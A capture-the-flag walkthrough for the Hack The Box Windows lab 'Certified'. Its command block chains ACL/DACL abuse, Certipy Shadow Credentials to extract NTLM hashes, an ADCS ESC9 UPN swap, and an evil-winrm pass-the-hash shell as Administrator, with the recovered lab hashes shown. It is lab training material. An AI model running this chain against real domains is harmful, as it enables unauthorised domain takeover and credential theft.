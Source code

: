 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Exploits Used**:
  - 🔓 **Assume Breach**: `WriteOwner` → DACL abuse → Shadow Credential  
  - 🔑 **ADCS ESC9**: UPN swap + no‑security‑ext template  
  - 🔄 **Shadow Credential** (Certipy) for NTLM extraction

**Open Ports:**
- 88/tcp [Kerberos]  
- 389/tcp [LDAP]  
- 445/tcp [SMB]  
- 5985/tcp [WinRM]  

---

## 🧠 TLDR  
1. **judith.mader** logs in, runs Bloodhound‑CE → finds ACL path to **management_svc** → **ca_operator**.  
2. Use **owneredit.py** + **dacledit.py** + `net rpc` to add judith ➡️ **Management_SVC**.  
3. As **management_svc**, inject **Shadow Credential** on itself → steal NTLM.  
4. As **ca_operator**, repeat **Shadow Credential** → steal its NTLM.  
5. Exploit **ADCS ESC9** via **ca_operator**: swap UPN→Administrator, request cert, extract admin hash.  
6. **Evil-WinRM** pass‑the‑hash → shell as **Administrator**. 🎉  

---

## 🧰 Tools  
- 🕵️ Recon & SMB: `nmap`, `netexec`  
- 📊 ACL Mapping: Bloodhound‑CE (`bloodhound-python`)  
- 🛠️ ACL Abuse: Impacket’s `owneredit.py`, `dacledit.py` + `net rpc`  
- 🧩 Shadow Credentials: `certipy shadow`  
- 🎛️ ADCS ESC9: `certipy account update`, `certipy req`, `certipy auth`  
- 💻 Shell: `evil-winrm`  

---

## 🚀 Commands to Solve Box
```bash
# 1) Recon & login
nmap -p- --min-rate 10000 10.10.11.41
nmap -p88,389,445,5985 -sCV 10.10.11.41
netexec smb 10.10.11.41 -u judith.mader -p judith09 --shares

# 2) Bloodhound-CE collection
bloodhound-python -c all -u judith.mader -p judith09 \
  -d certified.htb -ns 10.10.11.41 --zip
# Upload ZIP to Bloodhound-CE UI → find ACL path

# 3) WriteOwner & DACL abuse
owneredit.py -action write \
  -new-owner judith.mader -target Management \
  certified/\
judith.mader:judith09 -dc-ip 10.10.11.41

dacledit.py -action write \
  -rights WriteMembers -principal judith.mader \
  -target Management certified/\
judith.mader:judith09 -dc-ip 10.10.11.41

net rpc group addmem Management judith.mader \
  -U "certified.htb/judith.mader%judith09" -S 10.10.11.41

# 4) Shadow Cred on management_svc
certipy shadow auto \
  -username judith.mader@certified.htb \
  -password judith09 \
  -account management_svc \
  -target certified.htb \
  -dc-ip 10.10.11.41
# → NTLM: a091c1832bcdd4677c28b5a6a1295584

# 5) Shell as management_svc
evil-winrm -i 10.10.11.41 \
  -u management_svc \
  -H a091c1832bcdd4677c28b5a6a1295584

# 6) Shadow Cred on ca_operator
certipy shadow auto \
  -username management_svc@certified.htb \
  -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  -account ca_operator \
  -target certified.htb \
  -dc-ip 10.10.11.41
# → NTLM: b4b86f45c6018f1b664f70805f45d8f2

# 7) ESC9 ADCS exploit (ca_operator→Administrator)
certipy account update \
  -u management_svc \
  -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  -user ca_operator \
  -upn Administrator \
  -dc-ip 10.10.11.41

certipy req \
  -u ca_operator \
  -hashes :b4b86f45c6018f1b664f70805f45d8f2 \
  -ca certified-DC01-CA \
  -template CertifiedAuthentication \
  -dc-ip 10.10.11.41

certipy auth \
  -pfx administrator.pfx \
  -dc-ip 10.10.11.41
# → admin hash: 0d5b49608bbce1751f708748f67e2d34

# 8) Shell as Administrator
evil-winrm -i 10.10.11.41 \
  -u administrator \
  -H 0d5b49608bbce1751f708748f67e2d34
```

---

## 🎓 Actions Learned
- 📝 **WriteOwner Abuse** to seize group ownership  
- 🚧 **DACL Editing** (`WriteMembers`) to escalate membership  
- 🛡️ **Shadow Credential** injection for stealth NTLM harvest  
- 🔐 **ADCS ESC9 UPN Swap** for certificate‑based PTH to Administrator  

---

## 📚 References
- [Bloodhound‑CE (Docker)](https://github.com/BloodHoundAD/BloodHound#community-edition)  
- [Bloodhound.py Collector](https://github.com/dirkjanm/BloodHound.py)  
- [Impacket Examples](https://github.com/SecureAuthCorp/impacket#examples)  
- [Certipy (Shadow Credential)](https://github.com/ly4k/Certipy)  
- [ESC9 Attack Writeup](https://github.com/ly4k/Certipy#esc9)  
- [HTB Certified Walkthrough](https://0xdf.gitlab.io/2025/03/15/htb-certified.html)  